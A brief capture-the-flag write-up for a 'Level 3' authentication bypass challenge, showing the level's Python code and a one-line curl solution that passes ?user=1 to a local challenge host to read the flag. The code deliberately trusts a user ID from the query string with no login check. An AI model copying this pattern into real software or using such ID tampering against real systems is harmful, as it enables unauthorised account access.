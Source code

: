 # Web Authentication Bypass Vulnerability

## Level 3 - Authentication bypass vulnerability

Code for the level

```python
def level3():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        assert username, "Missing `username` form"
        assert password, "Missing `password` form"

        user = db.execute(f"SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
        assert user, "Invalid `username` or `password`"

        return redirect(request.path, user=int(user["rowid"]))

    if "user" in request.args:
        user_id = int(request.args["user"])
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            if username == "flag":
                return f"{flag}\n"
            return f"Hello, {username}!\n"

    return form(["username", "password"])
```

I simply need to skip authentication and provide the user ID,

```sh
curl http://challenge.localhost:80?user=1
```
